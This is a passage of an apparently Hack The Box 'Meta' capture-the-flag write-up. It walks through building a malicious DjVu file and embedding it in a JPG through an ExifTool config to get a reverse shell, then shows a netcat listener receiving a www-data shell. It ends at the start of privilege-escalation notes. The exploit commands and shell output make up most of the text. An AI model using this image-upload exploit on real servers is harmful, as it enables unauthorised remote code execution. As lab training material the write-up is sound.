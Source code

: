 - Encode payload and generate malicious djvu file

```bash
┌──(kali㉿kali)-[~/machines/linux/meta/exploit]
└─$ bzz payload payload.bzz

┌──(kali㉿kali)-[~/machines/linux/meta/exploit]
└─$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

- Create malicious jpg file that can be uploaded to the server

```bash
┌──(kali㉿kali)-[~/machines/linux/meta/exploit]
└─$ cat configfile           
%Image::ExifTool::UserDefined = (
'Image::ExifTool::Exif::Main' => {
    0xc51b => {
        Name => 'HasselbladExif',
        Writable => 'string',
        WriteGroup => 'IFD0',
    },
},
);
1
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/machines/linux/meta/exploit]
└─$ exiftool -config configfile '-HasselbladExif<=exploit.djvu' wallpaper.jpg
    1 image files updated
```

Once uploaded we will have our reverse shell in the listener.

```bash
┌──(kali㉿kali)-[~/machines/linux/meta]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.140] 41782
bash: cannot set terminal process group (597): Inappropriate ioctl for device
bash: no job control in this shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ whoami
whoami
www-data
```

# Privilege escalation

### Pivoting to user Thomas

We are going to pivot to user thomas, since we will probably have more privilege than www-data.

- There are no binaries or files outside his user home directory that are owned by thomas
- He isn’t running any program
- There are no mentions to his name in any system file
- We cannot run commands as Thomas using sudo
